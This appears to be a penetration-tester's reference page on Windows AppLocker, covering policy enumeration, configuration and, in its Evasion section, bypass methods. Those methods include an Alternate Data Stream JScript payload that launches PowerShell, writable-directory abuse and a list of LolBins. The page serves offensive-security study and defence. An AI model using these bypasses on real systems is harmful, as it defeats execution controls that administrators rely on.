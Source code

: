 ```yaml
---
title: AppLocker
---
```


AppLocker is a feature on [[notes/windows/index]], that controls which executables, DLLs and scripts an unprivileged user can execute.
Local service accounts and admins are usually not affected.

Unlike [[notes/windows/wdac]], Microsoft does not consider AppLocker to be a security boundary.
The default policies are insecure and can be easily bypassed.

# Discovery

When you try to run an executable that is blocked by AppLocker you get the following error: *This program is blocked by group policy. For more information, contact your system administrator.*

Show AppLocker policies as unprivileged user.

=== "PowerShell"
    ~~~ powershell
    Get-ApplockerPolicy -Effective -Xml
    Get-ApplockerPolicy -Effective | Select -ExpandProperty RuleCollections
    Get-ChildItem 'HKLM:Software\Policies\Microsoft\Windows\SrpV2'
    ~~~

Retrieve AppLocker policies from GPOs ([source](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38565426-policy-enumeration)).

=== "[[notes/tools/powerview]] + [[notes/tools/gpregistrypolicyparser]]"
    ~~~ powershell
    Get-DomainGPO -Domain corp.local | ?{ $_.DisplayName -ilike '*AppLocker*' } | Select DisplayName,GPCFileSyspath
    cp \\dc01.corp.local\SysVol\corp.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol .
    Parse-PolFile .\Registry.pol
    ~~~

# Evasion

The default AppLocker policies do not apply to DLLs.
Therefore they can be easily bypassed, e.g. with `rundll32.exe`.

Furthermore executables under `C:\Program Files`, `C:\Program Files (x86)` and `C:\Windows` are allowed.
`C:\Windows` has multiple [[notes/windows/writable-directories|globally writable subdirectories]].
AppLocker can be bypassed when you have write permissions in at least one excluded directory.

Check for each writable directory if you have execution rights (`RX` or `F`).

=== "builtin"
    ~~~ bat
    icacls.exe C:\Windows\Tasks
    ~~~

Bypass AppLocker trough JScript in an *Alternate Data Stream*.

=== "cmd"
    ~~~ bat
    echo new ActiveXObject('WScript.Shell').Run('powershell.exe') > "C:\Program Files (x86)\App\Logfile.log:test.js"
    cscript.exe "C:\Program Files (x86)\App\Logfile.log:test.js"
    ~~~

More restrictive AppLocker policies can often be bypassed trough [LolBins](https://lolbas-project.github.io/) like:

~~~
C:\Windows\Microsoft.NET\Framework64\*\InstallUtil.exe
C:\Windows\Microsoft.NET\Framework64\*\MSBuild.exe
C:\Windows\Microsoft.NET\Framework64\*\Microsoft.Workflow.Compiler.exe
C:\Windows\Microsoft.NET\Framework64\*\RegAsm.exe
C:\Windows\Microsoft.NET\Framework64\*\RegSvcs.exe
C:\Windows\Microsoft.NET\Framework64\*\addinprocess.exe
C:\Windows\Microsoft.NET\Framework64\*\addinprocess32.exe
C:\Windows\Microsoft.NET\Framework64\*\aspnet_compiler.exe
C:\Windows\Microsoft.NET\Framework\*\InstallUtil.exe
C:\Windows\Microsoft.NET\Framework\*\MSBuild.exe
C:\Windows\Microsoft.NET\Framework\*\Microsoft.Workflow.Compiler.exe
C:\Windows\Microsoft.NET\Framework\*\RegAsm.exe
C:\Windows\Microsoft.NET\Framework\*\RegSvcs.exe
C:\Windows\Microsoft.NET\Framework\*\addinprocess.exe
C:\Windows\Microsoft.NET\Framework\*\addinprocess32.exe
C:\Windows\Microsoft.NET\Framework\*\aspnet_compiler.exe
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\System32\cmd.exe
C:\Windows\System32\cscript.exe
C:\Windows\System32\mshta.exe
C:\Windows\System32\regsvr32.exe
C:\Windows\System32\rundll32.exe
C:\Windows\System32\wscript.exe
~~~

If they are blocked search for abusable features in 3rd-party applications or installed scripting languages like Perl or Python.

References:

- [App-o-Lockalypse now - Oddvar Moe - MCTTP 2023](https://www.youtube.com/watch?app=desktop&v=7YEi0oTpqW4)
- [Windows 10/11: "Schein-Ordner" als Sicherheitsdesaster hebeln Applocker und SRP aus](http://web.archive.org/web/20230310190607/https://www.borncity.com/blog/2023/03/09/windows-10-11-schein-ordner-als-sicherheitsdesaster-hebeln-applocker-und-srp-aus/), AppLocker bypass by combining *Mocked* with *Trusted Folders*
- [Arbitrary, Unsigned Code Execution Vector in Microsoft.Workflow.Compiler.exe](https://scribe.rip/@specterops/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb)
- [Microsoft recommended block rules](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules), list of dangerous programs that can be used for bypasses
- [Ultimate AppLocker bypass list](https://github.com/api0cradle/ultimateapplockerbypasslist)

# Configuration

Open `secpol.msc` as admin and select to *Application Control Policies/AppLocker*.
Right-click and select *Create default rules* on *Executable Rules*, *Windows Installer Rules*, *Script Rules* and *Packaged App Rules* 
Then right-click on *AppLocker*, select *Properties*, enable all four rule collections and click *Ok*.

Enable autostart for the *AppIDSvc* service.

~~~ ps1
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\AppIDSvc -Name Start -Type DWORD -Value 0x2  -Force
Start-Service AppIDSvc
~~~

Apply group policies.

~~~ bat
gpupdate.exe /force
~~~
